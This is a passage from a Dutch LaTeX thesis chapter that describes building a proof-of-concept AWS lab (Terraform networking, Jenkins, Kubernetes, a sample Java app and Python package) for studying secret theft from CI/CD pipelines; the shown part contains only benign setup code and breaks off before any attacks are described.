%%=============================================================================
%% Proof of concept
%%=============================================================================

\chapter{\IfLanguageName{dutch}{Proof of concept}{Proof of concept}}%
\label{ch:proof of concept}

\section{\IfLanguageName{dutch}{De POC omgeving}
{The POC environment}}
\label{sec:De POC omgeving}

Aan de hand van deze POC wordt er onderzocht hoe veilig het is om secrets te gebruiken in Jenkins. De infrastructuur van deze POC wordt automatisch uitgerold in de cloud door gebruik te maken van terraform. Voor het opbouwen van de omgeving wordt de Amazon Web Services (AWS) provider gebruikt die beschikbaar is in Terraform. De infrastructuur bestaat uit een bastion server, een Jenkins server, een AWS scaling group en een Kubernetes cluster. De scaling group maakt het mogelijk om virtuele machines aan te maken op basis van de actuele behoeften. Hierdoor kan de infrastructuur automatisch op- of afschalen, afhankelijk van de vraag op dat moment. Deze verschillende componenten werken te samen en vormen de productie omgeving.
\newline 

Nadat het netwerk en de infrastructuur automatisch zijn opgebouwd, wordt de omgeving gebruikt voor het bouwen van applicaties met behulp van verschillende CI/CD-pipelines. Deze pipelines worden gebruikt als doelwitten voor aanvallen om secrets uit de pipeline te extraheren. Dit stelt ons in staat om te onderzoeken hoe dergelijke aanvallen kunnen worden voorkomen en welke beveiligingsmaatregelen kunnen worden genomen.

\subsection{\IfLanguageName{dutch}{Prerequisites}
{Prerequisites}}
\label{sec:Prerequisites}

Om de aanvallen te simuleren in deze omgeving wordt een GitHub organisatie opgezet met twee leden. Alle repositories die gebruikt zullen worden in de POC, worden onder deze organisatie geplaatst. Door gebruik te maken van GitHub for organizations is er heel wat meer controle over wat een bepaalde gebruiker wel of niet kan doen. Vooraleer de omgeving opgebouwd wordt, wordt enkele belangrijke software geïnstalleerd.
\newline 

Volgende software wordt gebruikt tijden de POC:

\begin{itemize}
  \item Terraform wordt gebruik om de omgeving volledig automatisch op te bouwen. Dit wordt later in dit hoofdstuk uitvoerig besproken.
  \item Om AWS vanaf de commandline te gebruiken, wordt de AWS command line interface (cli) gebruikt. 
  \item Om Kubernetes vanaf de commandline te gebruiken, wordt kubectl gebruikt.
  \item Heml\footnote{Helm is een soort van package manager voor Kubernetes services. Via een Helm chart is het mogelijk een Kubernetes applicatie uit te rollen in slechts enkele seconden.} wordt gebruikt om software op de cluster te installeren.
  \item Om de Java app te bouwen en te testen, wordt Maven gebruikt.
  \item Om de Docker container te testen, wordt Docker Desktop gebruikt.
\end{itemize}

Deze sofware wordt aan de PATH omgevingsvariabele toegevoegd zodat de sofware gebruikt kan worden vanaf de commandline. Aangezien er bij het CD gedeelte van de pipelines gebruik wordt gemaakt van secrets, wordt de Sealed secrets extensie voor Visual Studio Code geïnstalleerd. Deze extensie wordt ook aan de PATH omgevingsvariabele toegevoegd.

\subsubsection{\IfLanguageName{dutch}{Bouwen en testen van de java applicatie}
{Building and testing the java application}}
\label{sec:Bouwen en testen van de applicatie}

Om een realistisch scenario te creëren, wordt er een test Java-applicatie ontwikkeld. Deze applicatie zal worden gebruikt in de Java-pipeline. De functionaliteit van de applicatie is het weergeven van het bericht ''Hello, world!'' elke vijf seconden. Deze functionaliteit is nodig omdat de applicatie wordt uitgevoerd op een Kubernetes-cluster. Hiermee kan een service worden gesimuleerd die in een Docker-container kan draaien.
\newline

De broncode van de Java-applicatie bevindt zich in een private repository. Om toegang te krijgen tot deze repository in de CI-pipeline, wordt er gebruikgemaakt van een token. Dit token wordt toegevoegd aan AWS Secrets Manager.
\newline 

Op de volgende pagina wordt de Java-code beschreven die gebruikt wordt in de private repository:
\clearpage

\begin{lstlisting}
package vvanhooren;

  /**
   * Hello world!
   *
   */
  public class App 
  {
      public static void main( String[] args )
      {
          while(true) {
              System.out.println("hello world");
              try {
                  Thread.sleep(5000); // wait for 5 seconds
              } catch (InterruptedException e) {
                  e.printStackTrace();
              }
          }
      }
  }
\end{lstlisting}

\vspace{0.5cm}
Na het bouwen van de applicatie wordt er een test uitgevoerd om te controleren of deze correct kan worden gecompileerd met Maven. Om de applicatie te kunnen gebruiken in een deployment-omgeving, wordt er een Docker-image gemaakt. Deze eenvoudige Docker-image maakt gebruik van een bestaande image waar Maven en Java al zijn geïnstalleerd. In deze image wordt de gecompileerde applicatie gekopieerd naar de nieuwe Docker-image. Vervolgens wordt de applicatie uitgevoerd door middel van een Java-commando. Via Docker Desktop is het eenvoudig om te controleren of de container stabiel is.
\newline

De code om de applicatie te laten draaien in een container is de volgende:
\newline

\begin{lstlisting}[style=dockerfile,language=Dockerfile]
  # Use official Maven image with Alpine base image
  FROM maven:3.9-ibmjava AS build
  
  # Copy the jar file 
  COPY ./target/*.jar /app/app.jar
  
  # Set the working directory in the container
  WORKDIR /app
  
  # Run the app
  CMD ["java","-jar","app.jar"]
\end{lstlisting}

\clearpage
\subsubsection{\IfLanguageName{dutch}{Bouwen van de Kubernetes deployment}
{Building the Kubernetes deployment}}
\label{sec:Bouwen van de Kubernetes deployment}

De applicatie wordt in de laatste stap uitgerold op een Kubernetes cluster die voorzien wordt door de Elastic Container Service (EKS) van AWS. Bij het uitrollen wordt gebruik gemaakt van Kustomize om de Kubernetes manifest bestanden te beheren. De aanpak die gebruikt wordt om de Kubernetes deployment op te bouwen is deze van \textcite{Putra2023}. In deze video reeks wordt beschreven hoe deze software gebruikt kan worden.
\newline 

Wanneer Kustomize gebruikt wordt, wordt de bestandenstructuur in figuur \ref{fig:bestandstructuur} gevolgd. De repository met alle manifest en Kustomize bestanden wordt in versiebheer bijgehouden omdat er gebruik wordt gemaakt van een GitOps\footnote{GitOps is een softwareontwikkelingsmethodologie die gebruikmaakt van versiebeheersystemen, zoals Git, om de implementatie en werking van applicaties en infrastructuur te beheren en automatiseren.} aanpak voor het CD gedeelte van de pipeline. Bij deze repository wordt er een deploy-key voorzien zodat de code later in de CD-pipeline gebruikt kan worden.
\newline

\begin{figure}[H]
    \dirtree{%
    .1 myargo-app/.
    .2 README.md.
    .2 environments/.
    .3 staging/.
    .4 my-app/.
    .5 kustomization.yaml.
    .2 my-app-base/.
    .3 deployment.yaml.
    .3 kustomization.yaml.
    .3 namespace.yaml.
    }
  \caption{\label{fig:bestandstructuur}Bestandstructuur voor de staging omgeving.}
\end{figure}

Een Kubernetes deployment object wordt gebruikt om een container uit te voeren waar een Java applicatie kan draaien. Het object bestaat uit een container die op poort 80 zal draaien. De image wordt opgehaald van de private Docker container registry die gebruikt wordt in de CI pipeline. Er wordt ook een namespace Kubernetes object voorzien. Het namespace object definieert een nieuwe ruimte waar de pod zal uitgevoerd worden. Dit object zorgt ervoor dat de deployment gescheiden kan worden van de andere applicaties die al uitgevoerd worden op de Kuberneter cluster. 
\newline

De code op de volgende pagina toont hoe deze Kubernetes objecten concreet geconfigureerd worden:
\clearpage

\begin{lstlisting}[style=Kubernetesyaml,language=Kubernetesyaml]
  ---
  apiVersion: apps/v1
  kind: Deployment
  metadata:
    name: my-maven-app
    labels:
      app: maven-app
  spec:
    selector:
      matchLabels:
        app: maven-app
    template:
      metadata:
        labels:
          app: maven-app
      spec:
        containers:
          - name: maven-app
            imagePullPolicy: Always
            image: victorwillem/my_maven_app
            ports:
              - containerPort: 80
  ---
  apiVersion: v1
  kind: Namespace
  metadata:
    name: maven
\end{lstlisting}

\vspace{0.5cm}
Het kustomization bestand in de ''my-app-base'' folder wordt gebruikt om te bepalen welke Kubernetes objecten overschreven zullen worden. De deployment en namespace objecten worden overschreven binnen deze configuratie. 
\newline

Dit kustomization bestand is op volgende manier opgebouwd:
\newline 

\begin{lstlisting}[style=Kubernetesyaml,language=Kubernetesyaml]
  ---
  apiVersion: kustomize.config.k8s.io/v1beta1
  kind: Kustomization
  metadata:
    name: arbitrary
  resources:
    - deployment.yaml
    - namespace.yaml 
\end{lstlisting}
\clearpage

Tenslotte wordt nog een kustomization bestand voorzien in de ''staging omgeving''. Dit configuratie bestand bepaalt hoeveel replicas (pods) er uiteindelijk op de cluster zullen uitgevoerd worden en eventuele configuratie elementen van de Kubernetes objecten die overschreven zullen worden. Ook bevat dit bestand andere configuratie elementen zoals de locatie van de Kubernetes secret die gebruikt wordt om toegang te krijgen tot de private Docker container registry. Deze secret wordt in een latere stap aangemaakt in de CD-pipeline repository en wordt daarna geëncrypteerd door gebruik te maken van de sealed secrets extensie.
\newline

Volgende configuratie wordt gebruikt in het kustomization bestand:
\newline

\begin{lstlisting}[style=Kubernetesyaml,language=Kubernetesyaml]
  ---
  namespace: staging
  replicas:
    - name: my-maven-app
      count: 1
  images:
    - name: victorwillem/my_maven_app
      newTag: v0.1.0
  resources:
    - "../../../my-app-base"
  patches:
    - target:
        kind: Deployment
      patch: |-
        - op: add
          path: /spec/template/spec/imagePullSecrets
          value: [{ name: dockerconfigjson }]
\end{lstlisting}

\vspace{0.5cm}
Als er andere omgevingen worden opgezet, zoals een productieomgeving, is het nodig om een nieuwe bestandsstructuur te creëren met een bijbehorend Kustomize-bestand. Voor elke nieuwe namespace die wordt toegevoegd, wordt een apart Kustomize-bestand gebruikt. De structuur van deze bestanden wordt geïllustreerd in figuur \ref{fig:bestandstructuurnieuw}.

\begin{figure}[H]
  \dirtree{%
  .1 myargo-app/.
  .2 README.md.
  .2 environments/.
  .3 staging/.
  .4 my-app/.
  .5 kustomization.yaml.
  .3 production/.
  .4 my-app/.
  .5 kustomization.yaml
  .2 my-app-base/.
  .3 deployment.yaml.
  .3 kustomization.yaml.
  .3 namespace.yaml.
  }
\caption{\label{fig:bestandstructuurnieuw}Bestandstructuur voor productie en staging omgeving.}
\end{figure}

\subsubsection{\IfLanguageName{dutch}{Bouwen van de Python dependency}
{Building the python dependency}}
\label{sec:Bouwen van de Python dependency}

De POC-omgeving wordt ook voorzien van een Python-pipeline. Deze pipeline wordt gebruikt om enkele aanvallen te simuleren. één van deze aanvallen heeft te maken met Python dependencies en daardoor wordt er dus een private Python dependency gecreeërd. Er wordt een private repository voorzien voor deze dependency. Deze dependency toont het bericht "hello world". 
\newline

Onderstaande Python code en setup code wordt gebruikt om deze dependency op te bouwen:
\newline

\begin{lstlisting}[style=python]
  # mypackageBP.py
  print("Hello World") #prints Hello World to the console

  # setup.py
  from setuptools import setup, find_packages

  with open("README.md", "r") as readme_file:
      readme = readme_file.read()
      
  setup(
      name='mypackageBP',
      version='1.0.0',
      description='A test package for my python pipeline',
      author='Victor',
      author_email='vanhoorenvictor@gmail.com',
      long_description=readme,
      long_description_content_type="text/markdown",
      packages=find_packages(),
  )
\end{lstlisting}

Voor het testen van deze applicatie wordt gebruikgemaakt van de Python virtual environment (venv). Om de applicatie te compileren, wordt het volgende commando gebruikt:
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
python setup.py sdist
\end{lstlisting}

\vspace{0.5cm}
Vervolgens kan de applicatie worden getest door deze lokaal te installeren met behulp van het commando:
\newline

\begin{lstlisting}[language=bash, style=bashstyle]
pip install -e
\end{lstlisting}

\subsubsection{\IfLanguageName{dutch}{Terraform backend configuratie}
{Terraform backend configuration}}
\label{sec:Terraform backend configuratie}

Vooraleer de infrastructuur en het netwerk opgebouwd kan worden met Terraform, is het belangrijk het Terraform tfstate bestand te bewaren op een veilig plaats. Bij deze POC opstelling wordt gebruik gemaakt van een AWS S3 bucket om dit bestand op een veilige plaats te bewaren. Om te voorkomen dat meerdere gebruikers hetzelfde state bestand aanpassen maakt terraform gebruik van een state lock bestand. Dit bestand wordt in deze POC in een AWS dynamo databank bewaard. Deze acties worden uitgevoerd aan de hand van een aparte Terraform configuratie vooraleer het netwerk en de infrastructuur opgebouwd worden. 
\newline

Hier is de code die gebruikt wordt om deze elementen te configureren:
\newline

\begin{lstlisting}[language=terraform]
  resource "aws_s3_bucket" "terraform_state_environment" { 
    bucket = "terraform-state-environment-victorwillem" 
      
      lifecycle { 
        prevent_destroy = true 
    } 
  }

  resource "aws_s3_bucket_versioning" "versioning_s3" {
    bucket = aws_s3_bucket.terraform_state_environment.id
    versioning_configuration {
      status = "Enabled"
    }
  }
  
  resource "aws_s3_bucket_server_side_encryption_configuration" "encryption_s3" {
      bucket = aws_s3_bucket.terraform_state_environment.id
      rule {
        apply_server_side_encryption_by_default {
          sse_algorithm = "AES256"
        }
      }
    
  }

  resource "aws_dynamodb_table" "forcestate" {
    name = "for_state_lock"
    hash_key = "LockID"
    read_capacity = "8"
    write_capacity = "8"

    attribute {
      name = "LockID"
      type = "S"
    }
    tags = {
        Name = "StateLock"
    }
  
}
\end{lstlisting}

\subsubsection{\IfLanguageName{dutch}{Netwerkconfiguratie en beveiliging met AWS security groups}
{Networkconfiguration and security with AWS security groups}}
\label{sec:Netwerkconfiguratie en beveiliging met AWS security groups}

\paragraph{\IfLanguageName{dutch}{Netwerkarchitectuur overzicht}
{Overview of the network architecture}}
\label{sec:Netwerkarchitectuur overzicht}

Het netwerk is volledig opgebouwd met terraform. Het bestaat uit een virtual private cloud (VPC) die geconecteerd is met verschillende subnets. Deze subnets zijn verspreid over verschillende availability zones. Er zijn drie private subnets voorzien en drie publieke subnets. Twee subnets van beide categorieën zijn in gebruik voor de Kubernetes cluster en worden ook gebruikt door de AWS autoscaling group. In deze POC wordt geen gebruik gemaakt van deze load balancers. Het overige private subnet is gereserveerd voor de jenkins server en eventuele andere servers die opgebouwd worden om de aanvallen te simuleren. Het laatste publieke subnet wordt gebruikt door de bastion server en de server van de aanvaller. Er is slechts één internet gateway voorzien die verbonden is met alle publieke subnets. De private subnets hebben toegang tot het internet via verschillende Network Address translation (NAT) gateways. Om internet connecties mogelijk te maken zijn er verschillende routeringstabellen geconfigureerd. 
\newline

Voor de toegang tot de verschillende servers worden load balancers gebruikt. De load balancer URL's bieden toegang tot Jenkins en SonarQube. Jenkins wordt gebruikt als buildserver en SonarQube zorgt ervoor dat er een statische code analyse uitgevoerd wordt. Voor de Kubernetes-objecten wordt geen gebruik gemaakt van load balancers. In plaats daarvan wordt gebruik gemaakt van port forwarding om toegang te krijgen tot de services.
\newline

De volledige netwerk configuratie wordt weergegeven aan de hand van figuur \ref{fig:aws_network} en figuur \ref{fig:aws_networkfigure}.

\begin{figure}[H]
  
\includegraphics[scale=0.48]{graphics/aws_network.png}
\caption{\label{fig:aws_network} Globaal overzicht van het netwerk.}
\end{figure}

\begin{figure}[H]
  
\includegraphics[scale=0.45]{graphics/network.png}
\caption{\label{fig:aws_networkfigure} Het netwerk waarvan de POC opstelling gebruik maakt.}
\end{figure}

\paragraph{\IfLanguageName{dutch}{Bouwen van het netwerk en de security groups met terraform}
{Building the network and the security groups using terraform}}
\label{sec:Bouwen van het netwerk en de security groups met terraform}

Om een omgeving in terraform op te stellen die hergebruikt kan worden, wordt bij elke component van het netwerk zoveel mogelijk met parameters gewerkt. De parameters worden ingesteld in het terraform tfvars bestand. Elke component wordt ook waar mogelijk voorzien van een eigen module die ingeladen wordt in het hoofd Terraform bestand. Alle variabelen, Terraform resources en andere Terraform code kan teruggevonden worden in dit hoofdstuk van de bijlagen \ref{sec:Variabelen voor het bouwen van het netwerk en de security groups met terraform}.
\newline

De VPC wordt op onderstaande manier opgebouwd:
\newline

\begin{lstlisting}[language=terraform]
  # Bouwen van een aws vpc component
  resource "aws_vpc" "main" {
  
    # Instellen van de vpc cidr block
    cidr_block = var.vpc_cidr
  
    # Instellen van de vpc naam
    tags = var.vpc_name
  
    # aanzetten van bepaalde dns instellingen die nodig zijn voor deze vpc
    enable_dns_hostnames = true
    enable_dns_support = true
  
  }
\end{lstlisting}

\vspace{0.5cm}
De unieke id van de VPC wordt gebruikt om andere componenten in het netwerk te configureren en wordt als een output parameter voorzien in deze module.
\newline

Om het netwerkverkeer tussen de verschillende netwerkcomponenten te beheren, worden in de subnets bepaalde regels ingesteld. Deze regels bepalen wat voor verkeer er is toegestaan om vanuit andere componenten naar een subnet te gaan, en wat voor verkeer het subnet kan verlaten om naar andere componenten te gaan. Om deze regels te kunnen configureren moeten er eerst security groups aangemaakt worden. Deze security groups worden vervolgens gelinkt met de respectievelijke regels.
\clearpage

De configuratie van de security groups ziet er als volgt uit:
\newline

\begin{lstlisting}[language=terraform]
  # Resource block die gebruikt wordt om een security group aan te maken
  resource "aws_security_group" "group1" { 
  
    # Instellen van de security group naam
    name   = var.aws_security_group
  
    # Instellen van de vpc id
    vpc_id = var.vpc_id 
  
    # Instellen van de security group tags
    tags = var.aws_security_group_name
  }
\end{lstlisting}

\vspace{0.5cm}
De restricties voor het netwerkverkeer worden geconfigureerd met behulp van Terraform-code. Afhankelijk van het type restricties worden specifieke elementen toegevoegd aan de beveiligingsgroep. Sommige regels worden niet geconfigureerd voor een specifiek CIDR-bereik, maar eerder voor een specifieke beveiligingsgroep. Bovendien worden sommige regels geconfigureerd om alle protocollen toe te staan. De configuratie van elke regel hangt af van de oriëntatie. \textit{\textbf{Ingress} is het verkeer dat toekomt op de server.} \textit{\textbf{Egress} is het verkeer dat vertrekt vanaf de server naar ergens anders.} \autocite{Zadeh2022}
\newline

Hieronder staat een voorbeeld van de Terraform-configuratie voor een inkomende ingress regel waarbij de bron een specifieke beveiligingsgroep is:
\newline

\begin{lstlisting}[language=terraform]
  # Resource block die gebruikt wordt om een ingress rule in te stellen
  resource "aws_vpc_security_group_ingress_rule" "name" {
  
      # Instellen van het bereik (van poort ... tot poort ...)
      from_port = var.aws_security_group_from
      to_port = var.aws_security_group_to
  
      # Instellen van het protocol waarop deze security rule van toepassing is tcp/udp of -1 voor beide
      ip_protocol = var.aws_security_group_rule_protocol
  
      # Id van de security group die gebruikt zal worden als de source van het verkeer
      referenced_security_group_id = data.aws_security_group.source.id
  
      # Id van de security group zodat deze rule aan deze group gekoppeld kan worden
      security_group_id = data.aws_security_group.name.id
    
  }
\end{lstlisting}

\vspace{0.5cm}
De configuratie voor een inkomende ingress regel in Terraform, waarbij de bron een specifiek CIDR-bereik is, kan als volgt worden ingesteld:
\newline

\begin{lstlisting}[language=terraform]
  # Resource block die gebruikt wordt om een ingress rule in te stellen
  resource "aws_vpc_security_group_ingress_rule" "name" {
  
      # de cidr die gebruikt zal worden als de source van het verkeer
      cidr_ipv4 = local.cidr_ipv4
  
      # Instellen van het bereik (van poort ... tot poort ...)
      from_port = var.aws_security_group_from
      to_port = var.aws_security_group_to
  
      # Instellen van het protocol waarop deze security rule van toepassing is tcp/udp of -1 voor beide
      ip_protocol = var.aws_security_group_rule_protocol
  
      # Id van de security group zodat deze rule aan deze group gekoppeld kan worden
      security_group_id = data.aws_security_group.name.id
    
  }
\end{lstlisting}

\vspace{0.5cm}

Dit voorbeeld toont de Terraform-configuratie voor een uitgaande egress regel waarbij de bestemming een specifiek CIDR-bereik heeft:
\newline

\begin{lstlisting}[language=terraform]  
  # Resource block die gebruikt wordt om een ingress rule in te stellen
  resource "aws_vpc_security_group_egress_rule" "name" {
  
      # de cidr die gebruikt zal worden als de source van het verkeer
      cidr_ipv4 = local.cidr_ipv4
      
      # Instellen van het protocol waarop deze security rule van toepassing is tcp/udp of -1 voor beide
      ip_protocol = var.aws_security_group_rule_protocol
  
      # Id van de security group zodat deze rule aan deze group gekoppeld kan worden
      security_group_id = data.aws_security_group.name.id
    
  }
\end{lstlisting}
\clearpage

Binnen de POC (Proof of Concept) worden zowel private als publieke subnets geïmplementeerd. Deze subnets zijn strategisch verdeeld over meerdere beschikbaarheidszones om extra redundantie te creëren. Door deze spreiding zorgen we ervoor dat, zelfs als er zich problemen voordoen in één availability zone, de andere zones nog steeds operationeel blijven. De id's van de subnets worden gebruikt voor het maken van de servers en de cluster. De configuratie om een private subnet in te stellen kan hieronder teruggevonden worden. Bij de configuratie van een publiek subnet wordt de parameter "map public ip on launch toegevoegd".
\newline

Om de subnetten te configureren, wordt de onderstaande code gebruikt:
\newline

\begin{lstlisting}[language=terraform]  
  # Resource block die gebruikt wordt om een private subnet in te stellen
  resource "aws_subnet" "private_subnet" {
  
    # Instellen van de VPC id
    vpc_id     = var.vpc_id
  
    # Instellen van de cidr
    cidr_block = var.private_subnet_cidr
  
    # Instellen van de naam en andere tags
    tags       = var.private_subnet_tags
  
    # Instellen van de AWS availability zone
    availability_zone = var.private_subnet_availability_zone
  } 
\end{lstlisting}

\vspace{0.5cm}
Op dit moment zijn de meeste fundamentele componenten van het netwerk geconfigureerd. Er is echter nog een essentieel element dat ontbreekt, namelijk de gateways. Deze gateways zijn verantwoordelijk voor het mogelijk maken van de communicatie tussen het interne netwerk en externe netwerken, zoals het internet. De publieke subnets worden verbonden met een enkele internetgateway, terwijl de private subnets elk worden voorzien van een Network Address Translation (NAT) gateway. Door deze configuratie wordt er een directe verbinding naar buiten mogelijk gemaakt, waardoor connectiviteit met het internet tot stand kan worden gebracht.
\clearpage

De configuratie van de internetgateway wordt uitgevoerd met behulp van de volgende Terraform-code:
\newline

\begin{lstlisting}[language=terraform]  
  # Resource block die gebruikt wordt om een internet gateway in te stellen
  resource "aws_internet_gateway" "name" {
  
      # Instellen van de VPC id
      vpc_id = var.vpc_id
  
      # Instellen van de internet gateway naam
      tags = var.aws_internet_gateway_name
  
    
  }
\end{lstlisting}

\vspace{0.5cm}
In een nat gateway worden de private ip-adressen vertaald naar publieke, daarom moeten er eerst nog elastic ip-adressen geconfigureerd worden in AWS. Elastic ip-adressen zorgen ervoor dat de nat gateways een publiek adres krijgen. 
\newline

De configuratie van de Elastic IP-adressen wordt als volgt uitgevoerd:
\newline

\begin{lstlisting}[language=terraform]  
  # Resource block die gebruikt wordt om een elastic ip-adres in te stellen
  resource "aws_eip" "nat1" {
  
      # Instellen van de elastic ip adres naam
      tags = var.aws_eip_name 
  }
\end{lstlisting}

\vspace{0.5cm}
Voor de configuratie van de NAT-gateways wordt de volgende aanpak gevolgd:
\newline

\begin{lstlisting}[language=terraform]  
  # Resource block die gebruikt wordt om een nat gateway in te stellen
  resource "aws_nat_gateway" "example" {
  
    # Instellen van het elastic ip adres dat gekoppelt wordt aan deze resource
    allocation_id = var.aws_eip_id
  
    # Instellen van het publieke subnet dat gekoppelt wordt aan deze resource
    subnet_id     = var.public_subnet_id
  
    # Instellen van de nat gateway naam
    tags = var.aws_nat_gateway_name
  }
\end{lstlisting}
\clearpage

De laatste stap in de netwerkconfiguratie is het instellen van de juiste route paden, zodat het netwerkverkeer effectief kan worden gestuurd door de verschillende componenten. Om dit te bereiken, wordt gebruik gemaakt van de "AWS route table" resource. Om een private routeringstabel te configureren wordt onderstaande code blok gebruikt. Bij een publieke routeringstabel wordt gebruik gemaakt van de nat gateway id in de plaats van de internet gateway id.
\newline

Voor de configuratie van een routeringstabel wordt de configuratie gevolgd.
\newline

\begin{lstlisting}[language=terraform]  
  # Resource block die gebruikt wordt om een nat gateway in te stellen
  resource "aws_route_table" "route_table_private" {
  
      # Instellen van de VPC id
      vpc_id = var.aws_vpc_id
  
      # Instellen van de route
      route {
  
          # Instellen van de cidr
          cidr_block = var.aws_route_table_private_cidr
  
          # Instellen van de gateway die gebruikt zal worden
          gateway_id = var.aws_nat_gateway_id
      }
  
      # Instellen van de routeringstabel naam
      tags = var.aws_route_table_private_name
    
  }
\end{lstlisting}

\vspace{0.5cm}
De routeringstabellen moeten uiteindelijk nog toegevoegd worden aan de correcte subnets. Via onderstaande Terraform code is het mogelijk om deze connectie te maken:
\newline

\begin{lstlisting}[language=terraform]  
  # Resource block die gebruikt wordt om een routeringstabel link in te stellen
  resource "aws_route_table_association" "route_association_public" {
      
      # Instellen van het correcte subnet
      subnet_id = var.aws_subnet_public_id
  
      # Instellen van de routeringstabel die gebruikt zal worden
      route_table_id = var.aws_route_table_public_id
  }
  
\end{lstlisting}

\subsubsection{\IfLanguageName{dutch}{Infrastructuur configuratie}
{Infrastructure configuration}}
\label{sec:Infrastructuur configuratie}

\paragraph{\IfLanguageName{dutch}{Infrastructuur overzicht}
{Overview of the infrastructure}}
\label{sec:Infrastructuur overzicht}

De infrastructuur wordt ook opgebouwd via Terraform. Hoe de infrastructuur eruit ziet op AWS wordt duidelijk weergegeven via figuur \ref{fig:aws_infrastructuur}. In deze opstelling worden enkele servers voorzien. De jenkins server is verantwoordelijk voor alle bouwopdrachten. Deze server is het hart van de CD-pipeline. De bouwopdrachten worden niet rechtstreeks uitgevoerd op deze server, deze server stuurt een AWS autoscaling groep aan die nieuwe EC2-servers toevoegt wanneer nieuwe builds worden aangevraagd. Door gebruik te maken van een autoscaling groep is het mogelijk om deze instances ook af te breken wanneer deze niet meer nodig zijn. 
\newline

De bouwopdrachten worden uitgevoerd op aparte Amazon Elastic Compute Cloud (EC2) virtuele machines (VM), genaamd Jenkins runners. De runners en de Jenkins master server maken beide gebruik van een baked image\footnote{ Een baked image is een virtuele machine image die reeds voorzien is van de software die nodig is voor de specifieke use case} op die manier is er geen nood aan extra installaties wanneer de virtuele machine opgestart wordt. Deze manier van werken laat ook toe om verschillende soorten runners te bouwen voor verschillende soorten pipelines.
\newline 

De configuratie van de Jenkins server wordt voorzien door gebruik te maken van Jenkins as code (JCASC). Deze configuratie file is opgeslagen in een aparte S3 bucket en wordt ingeladen bij het opstarten van de build server. Deze server maakt gebruik van een nat gateway om internet te voorzien. De login pagina is beschikbaar doordat er gebruik wordt gemaakt van een loadbalancer. De server is daarnaast toegankelijk via ssh vanaf de bastion server. Verder is op deze server een SonarQube Docker container aanwezig. Ook SonarQube is toegankelijk vanaf het internet via een loadbalancer.
\newline

De server van de aanvaller wordt gebruikt om de illusie te creëren dat een aanvaller zich op het interne netwerk van het bedrijf bevindt. Deze server fungeert als een gesimuleerde externe aanvalspunt van waaruit aanvallen kunnen worden uitgevoerd. Aan de andere kant hebben we de webserver, die een cruciale rol speelt in het hosten van bestanden zoals een Python dependency en een shell script.
\newline

Bij deze  wordt ook gebruik gemaakt van een Kubernetes cluster die voorzien wordt door de EKS service van AWS. Deze cluster bevat ook een node group. Deze node group is eigenlijk een autoscaling groep die EC2-servers aanmaakt en beschikbaar stelt voor het uitvoeren van Kubernetes pods. Bij deze opstelling wordt gebruik gemaakt van twee nodes dit zorgt ervoor dat er 22 pods kunnen uitgevoerd worden op de cluster. Elke node kan ongeveer 11 pods voorzien. 
\clearpage

Op deze cluster zullen enkele services uitgerold worden die later gebruikt worden binnne de CD-pipeline. Onderstaande services worden voorzien door gebruik te maken van Helm charts.

\begin{itemize}
  \item Argo CD voor het deployen van de applicatie via een CD-pipeline.
